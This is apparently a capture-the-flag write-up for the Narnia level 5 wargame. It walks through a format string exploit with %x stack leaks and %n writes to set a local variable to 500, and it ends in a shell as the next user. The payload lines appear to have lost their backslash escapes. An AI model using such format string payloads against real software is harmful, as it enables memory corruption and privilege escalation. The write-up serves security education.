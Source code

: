 ### Format String Exploit

Therefore, upon providing a format character such as %x, the function will spit out addresses from the stack.

#### POC

narnia5@narnia:/narnia$ ./narnia5 %x  
Change i's value from 1 -> 500. No way...let me give you a hint!  
buffer : [f7fc5000] (8)  
i = 1 (0xffffd5f0)

Despite only providing %x as the input, we can see the buffer contains 8 bytes. The methodology behind a format string attack is finding the address of a local variable that we would like to overwrite (this is given to us as 0xffffd5f0). After discovering the address of the targeted variable, we need to determine where the input gets stored in memory. After finding this information, we can finally overwrite the variable by providing its address followed by the %n format specifier.

Providing the input string of AAAA followed by the %x format specifier, we can immediately see the position of the input in the stack:

{% highlight bash %}
narnia5@narnia:/narnia$ ./narnia5 AAAA%x  
Change i's value from 1 -> 500. No way...let me give you a hint!  
buffer : [AAAA41414141] (12)  
i = 1 (0xffffd5f0)
{% endhighlight %}

Therefore, replacing AAAA with the address of the local i variable followed by the %n format specifier will successfully overwrite the variable.

{% highlight bash %}
narnia5@narnia:/narnia$ ./narnia5 $(python -c "print 'xf0xd5xffxff%n'")  
Change i's value from 1 -> 500. No way...let me give you a hint!  
buffer : [] (4)  
i = 4 (0xffffd5f0)
{% endhighlight %}

Observe that the value for the variable is 4 which matches the amount of bytes in the buffer. Therefore, the amount of bytes inside the buffer corresponds to the overwriting value for the variable.

#### Controlling Variable Value

After verifying the ability for overwriting the local variable, we are left with the task of controlling its value. This can be done by padding the buffer using two different methods:

##### Method 1

We can use a specifier for the position of the input within the stack.

{% highlight bash %}
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "xe0xd5xffxff"+"%496x%1$n"')  
Change i's value from 1 -> 500. GOOD  
$ whoami  
narnia6
{% endhighlight %}
